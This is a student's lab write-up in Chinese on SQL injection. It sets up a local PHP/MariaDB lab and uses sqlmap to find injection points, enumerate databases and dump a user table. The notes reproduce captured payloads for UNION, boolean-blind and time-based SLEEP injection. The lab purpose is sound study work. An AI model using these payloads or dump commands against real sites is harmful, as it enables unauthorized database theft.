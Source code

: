 
# SQL注入（进阶）

## 环境搭建

老师的视频中给出的是 Fedola 中的搭建，但在此尝试了 Kali 下的搭建，由于文件目录等的不同，在搭建时出现了诸多问题:
尝试了
https://blog.csdn.net/weixin_54252904/article/details/117855931
https://huaweicloud.csdn.net/638db1bbdacf622b8df8c6a0.html#5mysqlphpnginxmysqlphpapache_36
https://blog.csdn.net/weixin_43268590/article/details/125650002
但都不成功，恢复了无数次快照之后，按照
https://xp-rience.blogspot.com/2020/05/nginx-php-fpm-setup-under-kali-linux.html
成功搭建了 php+nginx 的环境：
![输入图片说明](/imgs/2023-05-01/ybY35dzlQrrS24fa.png)

kali 自带 mysql，但后面还是打不开 1.php，试了好多办法还是不行，推倒重来 fedora 了
大概思路是先安装 nginx（启动，检查是否启动成功），安装php、php-fpm（启动，检查是否启动成功），修改 nginx 配置文件：监听php，这时就可以通过浏览器打开 nginx 目录下的 php 文件了，然后安装 mysql（mariadb 及服务器），使用命令`mysql_secure_installation` 配置mysql，导入需要的sql_injection表，安装 php-mysqlnd，重启 nginx，php-fpm，这是按老师的演示视频就可以打开 1.php 查看内容，*不过我打开还是空白*？但是 1.html 可以打开，输入 user id 后也可正常回显，就这样用着吧先

## 准备工作

为了便于观测，修改数据库配置文件 my.cnf，新建一个日志目录用于记录数据库查询记录，然后使用`sudo tail -f /var/log/mariadb/queries.log` 持续观察：
![输入图片说明](/imgs/2023-05-07/z1PI87MXORtb1ekc.png)

再建立一个 用于mysql查询的命令行窗口：`mysql -u root -p`，输入密码登录进入数据库，再进到表 sql_injection中：`use sql_injection`：

![输入图片说明](/imgs/2023-05-08/R2xSGCa1ApdJmNF9.png)

再建立一个用于 sqlmap 的命令行窗口：

![输入图片说明](/imgs/2023-05-08/qLjm6QeUnti30iVs.png)

在 code 命令行窗口可以查看 php 代码：
![输入图片说明](/imgs/2023-05-08/sfWoM770ThlIfcpO.png)

使用 ZAP 抓 sqlmap 发出的请求包

## 开始实验

### 目标：审阅 php 代码，通过学习 sqlmap 使用了解 sql 注入原理

#### 1.php

1.php 将通过输入的 id 查询对应学生的姓名，并将查询到的结果直接返回到页面

![输入图片说明](/imgs/2023-05-08/YVyVf1NnSjoRSYdA.png)

在 sqlmap 中，输入命令检测是否存在注入点
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries
```
*-u url*
*-p id （测试参数）*
*–fresh-queries 忽略在会话文件中存储的查询结果*

 发现回显，存在注入点，可以进行三种类型的注入：
 ![输入图片说明](/imgs/2023-05-08/Y8AhkgXd7womGHty.png)

使用
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --dbs
```
*--dbs 获取数据库管理系统数据库*

![输入图片说明](/imgs/2023-05-08/GbhcXlkOIG4YwdRW.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --current-db
```
*--current-db 获取当前数据库*
![输入图片说明](/imgs/2023-05-08/n43hrWhDSifGhezc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --users
```
*--users 查看用户*

![输入图片说明](/imgs/2023-05-08/HWEfeoS2X94j6hxN.png)

```
/sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection --tables
```
*-D 数据库名*
*--table 获取表名*

![输入图片说明](/imgs/2023-05-08/udeS9WkDfM1SXKBc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection -T user --dump
```
*-T 表名
--dump 转储数据库管理系统的数据库中的表项*

![输入图片说明](/imgs/2023-05-08/60I1dHEMH3GOifvW.png)

```
 ./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --proxy='http://127.0.0.1:8080' --fresh-queries --current-db
```
*--proxy='http://127.0.0.1:8080' 通过此代理，设置此项即可让请求通过 ZAP，可以抓到请求包*

**这时看一下 ZAP/sql 查询记录** ，可以看到是用的 **UNION 查询**（这里以拖库时得查询为例）：

![输入图片说明](/imgs/2023-05-09/kXzNQOp5xyYlvgUm.png)
有用的查询：

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 		    	
	CONCAT(0x71787a7071,
			JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,column_name,column_type)),0x71706a7171),NULL 
				FROM INFORMATION_SCHEMA.COLUMNS 
					WHERE table_name=0x75736572 AND table_schema=0x73716c5f696e6a656374696f6e-- -'
```
输入到 sql 界面和 url 中看一下

![输入图片说明](/imgs/2023-05-09/aZEYcET0fibvIxmj.png)
![输入图片说明](/imgs/2023-05-09/Ws9GriQLjU8FiXxu.png)

可以看到该语句回显了数据库列名、每列的数据类型、数据长度

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 	
	CONCAT(0x71787a7071,JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,`password`,id,username)),0x71706a7171),NULL 
		FROM sql_injection.`user`-- -'
```
用该函数拖库：

![输入图片说明](/imgs/2023-05-09/EmIi4g5a3ahnV4w8.png)

同理，其他 UNION 注入也使用类似语句，如获取库名使用CAST（DATABASE）等

 - [x] 1.php 中未对展示结果进行限制（全部展示），如果对回显限制为只展示一条呢？
 
对于 3.php，每次只能输出一条 username：
![输入图片说明](/imgs/2023-05-09/90p3vA4cUp7Ay0GT.png)

再输入 `1' or '1'='1`不再显示所有 username

![输入图片说明](/imgs/2023-05-09/iEagi3JRwFAIS0ik.png)

用 sqlmap 查一下 3.php 数据库，发现发送的是：
```
SELECT username FROM user WHERE id='-4319' UNION ALL SELECT CONCAT(0x716b766b71,IFNULL(CAST(DATABASE() AS NCHAR),0x20),0x716a627071)-- -'
``` 
对比 1.php，id 用了一个不存在的负随机数“-4319”
```
SELECT username FROM user WHERE id='1' UNION ALL SELECT CONCAT(0x7176787671,IFNULL(CAST(DATABASE() AS NCHAR),0x20),0x71626a7071),NULL-- -''
```
效果，在一行输出：
![输入图片说明](/imgs/2023-05-10/i6GjbFrbaUzVen5B.png)                                                                                                                                                                                                                                                                                                                                           

UNION注入速度最快，但需要在页面直接回显数据库信息时才可使用

 - [x] 如果页面不显示数据库内部信息，只显示是或否呢

看下 5.php：会判断输入 id 是否在数据库存在，存在返回 yes，不存在返回 no
![输入图片说明](/imgs/2023-05-10/0UYlfFNTUN4teX63.png)

只返回是或否，需要使用**布尔盲注**：
试试查看数据库名：
发送了一系列请求：
```
SELECT username 
FROM user WHERE id='1' 
AND ORD
	(MID((IFNULL(CAST(DATABASE() AS NCHAR),0x20)),1,1))>64 
		AND 'bBdl'='bBdl'
```
判断数据库名第一位是否大于64，和前面 id=1 相与，进而通过回显 yes 或 no 判断真假

为真，再判断是否大于96，直至确定第一位

![输入图片说明](/imgs/2023-05-10/ceFvxKtE1vCT98LP.png)

确定第一位后，依次确定第二位等：

![输入图片说明](/imgs/2023-05-10/3HMB5h2Gs08IJ4FY.png)

直至确定完整库名

如果代码改成这样，在 yes 和 no 前后插入随机数，像 6.php 中一样：

![输入图片说明](/imgs/2023-05-10/Nuo3XBBRY86MenpM.png)

再使用上述代码会发现找不到注入点，这时就需要指定回显的字符串：
```
./sqlmap.py -u 
'http://127.0.0.1/sql_injection/8.php?id=1&submit=submit' 
-p id --technique=T --fresh-queries
-D sql_injection --string=yes -T user --current-db
```
*--string=yes 遇见 yes 判断为真*
就可以如上成功找到注入点

 - [ ] 对于无论如何都显示相同信息的，怎么办呢？

如8.php：
![输入图片说明](/imgs/2023-05-11/XaApmBcsUXqmvKRE.png)

使用布尔盲注：
```
/sqlmap.py -u 
'http://127.0.0.1/sql_injection/8.php?id=1&submit=submit' 
-p id --technique=T --fresh-queries -D sql_injection 
-T user --current-db
```
看一下发送的查询指令

```
SELECT username FROM user WHERE id='1' 
AND (SELECT 5936 FROM 
(SELECT(SLEEP(5-(IF(ORD(MID((IFNULL(CAST(DATABASE() AS NCHAR),0x20)
),1,1))>64,0,5)))))qnyz) AND 'SSDT'='SSDT'
```
和布尔盲注类似，不过使用了 sleep 函数，通过观测返回时间确定真假

> Written with [StackEdit中文版](https://stackedit.cn/).
>
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE0OTk0MjQ1NjgsMTg0MTc2Nzc3MSwyMD
M0NzAwMjEwLDkwMTYwMzczOCwtMTMzNjY2MzUxNSwxNjAyNjQ3
MTA4LDIwMzc2MDk3MDIsMTA3NTMzNzY5LDE3NjkzMjY5ODEsMj
AyMDEzMDAyOCwyNjQ2NDE2MDMsMjEyODU3MzE2OCwtNjYxMTk0
ODc2LC0yMjAxMjYxNjAsLTg5Nzk2NzY3MSwxNDA1MTYyMzQ5LD
EwODg3MzczNDUsMjY5MjA1MDkzLC0yNTEzODY0OTMsLTQ5ODcw
MDUyOF19
-->
